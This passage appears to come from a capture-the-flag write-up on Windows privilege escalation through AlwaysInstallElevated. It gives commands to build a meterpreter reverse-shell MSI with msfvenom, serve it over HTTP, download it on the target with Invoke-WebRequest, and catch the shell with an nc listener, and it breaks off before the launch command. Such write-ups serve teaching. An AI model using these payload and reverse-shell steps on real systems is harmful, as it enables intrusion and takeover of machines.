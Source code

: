 ![Privesc Check](./pic/vuln.png)
	
We found credentials as well:
	
![Privesc Credentials](./pic/creds.png)
	
that means we can try this exploit about [AlwaysInstallElevated](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/).
The wxploit start by crafting the .msi installer on local machine:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.79.118 lport=8888 -f msi -o rev.msi
```
once we have the executable we can upload on the remote machine via python server on local machine:
```bash
python3 -m http.server 80
```
remote machine
```powershell
Invoke-WebRequest -Uri htpp://10.8.79.118/rev.msi -OutFile rev.msi
```
Now we need to start the listener:
```bash
nc -lvnp 8888
```
Once we have everything setup we need to launch the exploit on windows machine. the command to launch would be:
```cmd
```
